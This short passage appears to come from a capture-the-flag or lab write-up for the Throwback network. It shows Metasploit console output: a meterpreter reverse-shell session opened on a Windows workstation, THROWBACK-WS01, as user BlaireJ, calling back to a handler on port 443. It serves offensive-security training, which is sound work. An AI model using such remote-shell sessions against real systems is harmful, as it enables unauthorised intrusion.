 ```
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                              Connection
  --  ----  ----                     -----------                              ----------
  1         meterpreter x86/windows  THROWBACK-WS01\BlaireJ @ THROWBACK-WS01  10.50.9.18:443 -> 10.200.11.222:49808 (10.200.11.222)
```
seem like we just gain access to WS01
